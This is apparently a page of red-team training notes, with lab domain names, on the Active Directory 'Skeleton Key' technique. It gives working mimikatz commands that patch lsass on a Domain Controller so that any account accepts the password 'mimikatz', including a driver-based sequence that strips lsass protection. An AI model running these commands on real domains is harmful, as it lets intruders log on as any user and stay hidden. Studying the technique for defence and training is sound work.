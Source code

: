 ## **Skeleton Key**

Skeleton key is a persistence technique where it is possible to patch a Domain Controller (lsass process) so that it allows access as any user with a single password.
The attack was discovered by Dell Secureworks used in a malware named the Skeleton Key malware.
All the publicly known methods are NOT persistent across reboots

Use the below command to inject a skeleton key(password would be mimikatz) on a Domain Controller of choice. DA privileges required
- Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp- dc.dollarcorp.moneycorp.local

Now, it is possible to access any machine with a valid username and password as "mimikatz"
- Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator

You can access other machines as well as long as they authenticate with the DC which has been patched and the DC is not rebooted.

In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
- mimikatz # privilege::debug
- mimikatz # !+
- mimikatz # !processprotect /process:lsass.exe /remove mimikatz # misc::skeleton
- mimikatz # !-

Note that above would be very noisy in logs - Service installation (Kernel mode driver)
